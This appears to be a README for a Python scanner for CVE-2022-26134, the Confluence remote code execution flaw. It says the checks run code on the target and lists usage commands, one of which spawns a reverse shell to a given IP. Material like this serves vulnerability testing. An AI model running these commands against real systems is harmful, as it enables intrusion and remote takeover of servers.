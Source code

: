## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* Tested on win/nix, python 2.7 - 3.X
* Dependencies: argparse, requests
* Checks are invasive- meaning RCE will be performed (but on a non-destructive way)
* Example usage: 
  - python confluenceRCE.py -t http://127.0.0.1
  - python confluenceRCE.py -t https://127.0.0.1
  - python confluenceRCE.py -t https://127.0.0.1/foobar
  - python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
  - python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
  - python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
